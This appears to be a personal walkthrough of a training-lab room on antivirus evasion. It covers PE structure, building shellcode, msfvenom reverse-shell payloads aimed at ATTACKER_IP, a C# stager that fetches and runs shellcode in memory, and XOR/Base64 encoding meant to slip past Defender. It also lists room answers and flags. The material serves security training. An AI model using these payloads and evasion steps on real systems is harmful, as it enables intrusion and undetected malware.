AV Evasion - Shellcode
PE Structure
PE (Portable Executable), is a data structure that holds information necessary for files. It is a way to organize executable file code on a disk. Windows operating system components, such as Windows and DOS loaders, can load it into memory and execute it based on the parsed file information found in the PE.
There are different types of data containers in the PE structure, each holding different data.
.text stores the actual code of the program
.data holds the initialized and defined variables
.bss holds the uninitialized data (declared variables with no assigned values)
.rdata contains the read-only data
.edata: contains exportable objects and related table information
.idata imported objects and related table information
.reloc image relocation information
.rsrc links external resources used by the program such as images, icons, embedded binaries, and manifest file, which has all information about program versions, authors, company, and copyright!
When looking at the raw contents of a Portable Executable you immediately see a series of bytes that at first appear meaningless, but together they describe everything the Windows loader needs in order to take the file from disk and transform it into a running process in memory.
The loader begins by parsing the headers, which include the DOS header, the Windows header, and the optional header.
The DOS stub begins with the magic number “MZ” which signals that the file is an executable. From these headers the loader also learns about the target CPU architecture such as x86 or x64, the file’s creation timestamp, and other metadata. It then moves on to the section table where it finds details about how the executable’s code and data are split into sections, how many there are, and what their sizes and offsets are. At this point the loader maps the sections into memory according to the ImageBase, calculates relative virtual addresses to align everything properly, resolves imported DLLs and functions, and prepares the process’s memory space so that execution can begin. Finally, it jumps to the EntryPoint address defined in the header to transfer control to the program’s first instruction.
PE as we said stands for Portable Executable.
In the VM of this room, there is a tool called PE-Bear which is used to parse EXE files. It helps check the PE structure: Headers, Sections etc.
PE-Bear provides a graphic user interface to show all relevant EXE details. To load an EXE file for analysis, we select File -> Load PEs. Then, once the file is loaded, we can see all PE details.
First, I load the thm-intro2PE.exe fileWhat is the last 6 digits of the MD5 hash value of the file?

Answer: 530949
What is the Magic number value of the file (in Hex)?

Answer: 5A4D

What is the Entry Point value of the file?Answer: 12E4

How many Sections does the file have?Answer: 7
A custom section could be used to store extra data. Malware developers use this technique to create a new section that contains their malicious code and hijack the flow of the program to jump and execute the content of a new section. What is the name of the extra section?

.flag
Also, the flag is in the picture too.
Introduction to Shellcode
Shellcode is basically a set of crafted machine code instructions. They tell the vulnerable program to perform additional functions, which in most cases can be something like providing access to a system shell or creating a reverse shell.
Then, the shellcode is injected into a process and executed by this vulnerable piece of software.
It modifies the flow of the code to update registers and functions of the program, in order to also execute the attacker’s code.
Shellcode is generally written in assembly and translated into hexadecimal operation codes.
One purpose of well-crafted shellcode is to evade AV software or security solutions. However, writing shellcode has some requirements beforehand, those being:- Decent understanding of x86 and x64 CPU architectures
Assembly language
Strong knowledge of programming languages like C
Familiarity with Linux and Windows operating systems
Syscalls
Another concept is syscalls.
A syscall is the way in which a program requests the kernel to do something.
Each operating system has a different calling convention regarding syscalls.

For 64-bit Linux for example, you can call the needed functions from the kernel by setting up the following values:The rax register is used to indicate the function in the kernel we wish to call.
Setting rax to 0x1 makes the kernel execute sys_write,
and setting rax to 0x3 will make the kernel execute sys_exit
Each of the two functions require some parameters to work, which can be set through the rdi, rsi and rdx registers.
A full list of available 64-bit Linux syscalls is available here
For sys_write, the first parameter sent through rdi is the file descriptor to write to.
The second parameter in rsi is a pointer to the string we want to print,
and the third in rdx is the size of the string to print.
For sys_exit, rdi needs to be set to the exit code for the program.
We will use code 0, which means the program exited successfully.
I shall now create a file called thm.asm with the code the room provides.

I then compile and link the ASM code to create an x64 Linux executable file and then execute it as follows:(also notice the two files at the bottom)
I used the nasm command to compile the asm file, specifying the -f elf64 option to indicate we are compiling for 64-bit Linux.
As a result, a .o file is obtained. It contains object code, which needs to be linked in order to be a working executable file.
The ld command is used to link the object and obtain the final executable.
The -o option is used to specify the name of the output executable file.
Now that we have the compiled ASM program, we extract the shellcode with the objdump command by dumping the .text section of the compiled binary.

I shall now extract the hex value from the above output using the objcopy command to dump the .text section into a new file called thm.text in a binary format:

This text file now contains the shellcode in binary format, able to be used.
We need to convert it into hex though.
The xxd command has the -i option that will output the file into a C string directly:

And with that, we have turned our ASM assembly into a formatted shellcode!

We can then inject this shellcode into a C program and try to run it with the following commands:
Then we modify it to get the flag in this section:Generate ShellcodeHere we will generate and execute shellcode using public tools like the Metasploit framework.
Shellcodes can be created for a specific format in a specific language.
If for example the dropper is an .exe file, and contains the shellcode sent to the victim, and is written in C, then we need to generate a shellcode format that works in C.
Public tools make it easier to write shellcode. Public C2 frameworks for example offer their own shellcode generator compatible with the C2 platform.
These have a tendency to be easily detected however since they are well-known to AV vendors.
We will now use Msfvenom on the AttackBox to generate a shellcode that executes Windows files.
We will be creating a shellcode that runs the calc.exe application.


Shellcode Injection
Now, we continue using the generated shellcode and execute it on the operating system. We will put the shellcode in a file named calc.c

Then, we compile it as an exe file:Now we transfer the exe file to the Windows machine to execute it, usin smbclient to access the SMB share on the THM AttackBox.


And indeed, on the Windows machine, it opens calc.exe!Generating Shellcode from EXE Files
Shellcode can also be stored in .bin files, which is a raw data format. In this case, we can get its’ shellcode using the xxd -i command.
C2 commands provide shellcode as a raw binary file .bin. If this is the case, we can use the Linux system command xxd to get the hex representation of the binary file.
To do so, we execute the following command: xxd -i

And then xxd on this file:

Staged Payloads
Payloads are categorized as either staged or stageless.
Stageless Payloads embed the final shellcode directly into itself. It’s basically a packaged app that executes the shellcode in a single step process. What we did above was a stageless payload.
Staged Payloads work by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a stager, and its’ primary goal is to provide a means to retrieve the final shellcode and then execute it.
While some may have more stages, usually this is a two stage payload, where:
The first stage is a stub shellcode that connects back to the attacker’s machine to download the final shellcode to be executed.
Once retrieved, the stage0 stub will inject the final shellcode somewhere in the memory of that payload’s process and then executes it.
Staged vs Stageless
Stageless payloads have the advantage of:
being self-sustaining and needing no external dependencies
Executes without needing additional internet connections, helping with avoiding detection from IPS
Good for attacking hosts with restricted network connectivity
Staged payloads have the advantage of:
Leaving a small footprint on disk, since initial payload only serves to download the actual shellcode
The final shellcode is not embedded into the executable
The final shellcode is loaded into memory and doesnt interact with the disk, which makes it less detectable
The same dropper can be used for many shellcodes, as we can simply replace the final shellcode that gets served to the victim
Stagers in Metasploit
Metasploit also offers this choice to create either a staged or stageless payload via msfvenom.
They are only differentiated by a _ and / symbol respectively:
windows/x64/shell_reverse_tcp refers to a stageless payload
windows/x64/shell/reverse_tcp refers to a staged payload
Other types of shells also follow this type of pattern.
To use a stageless Meterpreter shell for example, we would use the windows/x64/meterpreter_reverse_tcp rather than the windows/x64/meterpreter/reverse_tcp which would work as its’ staged counterpart.
Creating your own stager
For this part, an already existing code snippet will be used:
Lets analyze the code.
The first part of the code will import some Windows API functions via P/Invoke.
The functions we need are the following three from kernel32.dll:
These WinAPI Functions:
- VirtualAlloc()
which allows us to reserve some memory to be used by our shellcode.
- CreateThread()
Which creates a thread as part of the current process.
- WaitForSingleObject()
Used for thread synchronization. It allows us to wait for a thread to finish before continuing.
The part of the code responsible for importing these functions is the following:
The most significant part of our code will be in the Stager() function, where the stager logic will be implemented.
The Stager function receives a URL from where the shellcode to be executed is then downloaded.
The first part of the Stager() function will make a new WebClient() object that allows us to download the shellcode using web requests.
Before making the actual request, we will overwrite the ServerCertificateValidationCallback method in charge of validating certificates when using HTTPS requests so that the WebClient doesn’t complain about self-signed or invalid certificates, which we will be using in the webserver hosting the payloads.
After that, we will call the DownloadData() method to download the shellcode from the given URL and store it into the shellcode variable:
Once the shellcode is downloaded and available in the shellcode variable, we’ll need to copy it into executable memory before running it.
We use VirtualAlloc() to request a memory block from the OS.
Notice that we request enough memory to allocate shellcode. Length bytes, and set the PAGE_EXECUTE_READWRITE flag, making the assigned memory executable, readable and writable.
Once our executable memory block is reserved and assigned to the codeAddr variable, we use Marshal. Copy() to copy the contents of the shellcode variable in the codeAddr variable.
We now have a copy of the shellcode allocated in a block of executable memory. We will use the CreateThread() function to spawn a new thread on the current process that will execute the shellcode.
This code demonstrates executing shellcode in a new thread and ensuring the program waits for the shellcode to finish before exiting.
The third parameter of CreateThread points to codeAddr, the memory address where shellcode is stored. This makes the thread start executing the shellcode as though it were a normal function. The fifth parameter is set to 0, so the thread starts immediately.
After creating the thread, WaitForSingleObject() is called with the thread handle and 0xFFFFFFFF (INFINITE). This forces the current program to wait until the shellcode thread finishes execution, preventing the program from closing too early.
We will now compile the file “staged-payload.cs” located at C:\Tools\CS Tiles\StagedPayload.cs this way:csc staged-payload.cs
(I copied the file to Desktop and renamed it)

Using our stager to run a reverse shell
Now that the payload is compiled, we need to setup a web server to host the final shellcode. The stager will connect to this server to retrieve the shellcode and execute it in the victim’s machine in-memory.
We firstly generate a shellcode using the command:msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'

We are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.
Since we have a shellcode now, we will setup a simple HTTPS server. To do that, we first need to create a self-signed certificate with this command:openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
Since we don’t need this SSL certificate to be valid, we can leave the input fields empty.

Now, we spawn the HTTPS server using python3, in a custom file in the same directory as the shellcode.bin file:
We then start the listener for the reverse shell:nc -lvnp 7474
Introduction to Encoding and Encryption
Encoding is the process of transforming data into a defined format according to an algorithm. It applies to videos, HTML, URLs, executables, and images, and is commonly used for compiling/execution, storage/transmission, and file conversion. In AV evasion, encoding can hide shellcode strings inside binaries, but by itself it isn’t enough because modern AV can decode and analyze the content. Layering multiple encoding algorithms can raise the bar, but your dropper must correctly decode them to restore the original data.
Encryption is a security mechanism that prevents unauthorized access by converting plaintext into ciphertext using an algorithm and a key. Without the correct decryption key, the ciphertext remains unreadable. Encryption can use symmetric keys (shared) or asymmetric keys (public/private key pairs) and is widely used for secure storage and end-to-end communication.
Understanding both encoding and encryption matters for evasion because unmodified shellcode from public tools is easily detected. Applying encoding and especially encrypting the shellcode (and even functions or variables) helps conceal it at runtime.
Shellcode Encoding and Encryption
Public tools like Metasploit will provide encoding and encryption features by themselves.
AV solutions take great measures to detect these payloads however and if we don’t modify these payloads ourselves, they will be detected on sight upon touching the victim’s disk.
We will now generate a simple payload. Within msfvenom, let’s list all available encoders:msfvenom --list encoders | grep excellent

Then, we indicate the encoder that we want to use. In this case, we want to use the shigata_ga_nai encoder with the -e (encoder) switch, and then specify that we want to encode the payload three times with the -i (iterations) switch:
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b ‘\x00’’ -i 3 -f csharp
As we said though, this payload gets instantly detected by Defender.
If encoding doesnt work, we can always encrypt the payload. This should have a higher success rating, as it proves to be a harder task for the AV.
Encryption using MSFVenom
Encrypted payloads are easily generated using msfvenom. The choices for encryption algorithms are a bit scarce though.
We can use the following command to list available encryption algorithms though:
msfvenom --list encrypt

Now to build an XOR encrypted payload, we will need to specify a key. The command would be like this:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key “MyZekr3tKey***” -o xored-revshell.exe

We now visit the THM AV website at the IP provided,, then upload this xored-revshell.exe file.
As we can see, it is nonetheless detected.

So, now we will try to create a Custom Payload.
We need to use our own encoding schemes so that the AV doesn’t know what to do when analyzing our payload. All we need to do is make the task confusing enough for the AV to analyze.
For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.
Let’s generate a reverse shell with msfvenom in CSharp format.
msfvenom LHOST=ATTACKER_IP LPORT=433 -p windows/x64/shell_reverse_tcp -f csharp

The Encoder
Before building the actual payload, we will create a program that takes the shellcode we just created, and then encodes it in any way we would prefer.
In this case, we will be XOR encrypting the payload with a custom key first, and then encoding it using base64.
The complete code for the encoder:
This code will generate an encoded payload that we will embed on the final payload. We need to replace the buf variable with the shellcode we generated using msfvenom.
To compile and execute the encoder, we use this specific command on the Windows machine:Csc.exe Encrypter.cs
Then, just run: .\Encrypter.exe
Self-decoding Payload
Now that our payload is encoded, we need to adjust the code so that it’s decoded before execution. In order to match the encoder, we will decode everything in the reverse order that it was encoded. We will first start by decoding the Base64 content and then continue by XORing the result with the same key used in the encoder. The full payload code (also known in the machine as EncStageless.cs) is this:
Now that we actually combine a number of techniques, the AV will not alert us of a potential danger, since it cannot directly analyze this combination of techniques.
Now, we will go further and compile our payload with the command on the Windows machine:
**csc.exe** EncStageless.cs
Before running our payload, we will setup a **nc** listener.
All we need to do now is run **nc -lvp 443** and we should receive a connection back.
### Packers
One effective method to bypass **disk-based AV detection** is the use of a **packer**. A packer is software that takes a program as input and transforms its structure so that it appears different, while maintaining the same **functionality**. Packers serve two primary purposes: to **compress** programs and to **protect** them from **reverse engineering**. Developers often rely on packers to secure legitimate software, but they are equally popular in the malware world for **obfuscating malicious code**. Well-known packers include **UPX, MPRESS, and Themida**.
